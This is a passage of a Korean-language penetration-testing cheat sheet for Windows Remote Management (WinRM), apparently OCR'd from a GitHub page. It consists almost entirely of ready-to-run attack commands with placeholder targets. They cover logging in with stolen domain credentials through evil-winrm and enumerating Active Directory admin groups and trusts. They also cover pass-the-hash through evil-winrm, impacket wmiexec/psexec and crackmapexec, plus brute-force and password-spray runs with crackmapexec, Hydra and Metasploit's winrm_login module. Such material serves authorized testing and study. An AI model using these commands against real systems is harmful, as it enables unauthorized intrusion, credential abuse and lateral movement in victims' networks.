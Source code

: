 ### 👥 도메인 환경 접근시

```bash
# 도메인 크레덴셜로 접근
evil-winrm -i {IP} -u {DOMAIN}\\{USERNAME} -p {PASSWORD}
evil-winrm -i {IP} -u {USERNAME}@{DOMAIN} -p {PASSWORD}

# 도메인 정보 수집 (PowerShell 세션 내)
$env:USERDOMAIN
$env:LOGONSERVER
nltest /dclist:{DOMAIN}

# Active Directory 정보 수집
net group "Domain Admins" /domain
net group "Enterprise Admins" /domain
net user /domain

# 도메인 컨트롤러 확인
nslookup -type=SRV _ldap._tcp.{DOMAIN}

# 도메인 신뢰 관계 확인
nltest /domain_trusts
```

### 🔐 Pass-the-Hash 공격 (해시 확보시)

```bash
# NTLM 해시로 WinRM 접근
evil-winrm -i {IP} -u {USERNAME} -H {NTLM_HASH}

# impacket 도구들로 해시 활용
impacket-wmiexec -hashes {LM_HASH}:{NTLM_HASH} {USERNAME}@{IP}
impacket-psexec -hashes {LM_HASH}:{NTLM_HASH} {USERNAME}@{IP}

# crackmapexec로 해시 검증
crackmapexec winrm {IP} -u {USERNAME} -H {NTLM_HASH}
```

### 🔄 브루트포스 공격

```bash
# crackmapexec를 이용한 WinRM 브루트포스
crackmapexec winrm {IP} -u administrator -p passwords.txt
crackmapexec winrm {IP} -u users.txt -p passwords.txt

# 특정 사용자에 대한 패스워드 스프레이
crackmapexec winrm {IP} -u administrator -p password -p admin -p Password123

# 도메인 사용자 브루트포스
crackmapexec winrm {IP} -u {DOMAIN}\\administrator -p passwords.txt

# Hydra를 이용한 WinRM 브루트포스 (HTTP 기반)
hydra -l administrator -P passwords.txt {IP} http-post-form "/wsman:username=^USER^&password=^PASS^:401 Unauthorized"

# Metasploit 브루트포스
msfconsole
use auxiliary/scanner/winrm/winrm_login
set RHOSTS {IP}
set USER_FILE users.txt
set PASS_FILE passwords.txt
run
```
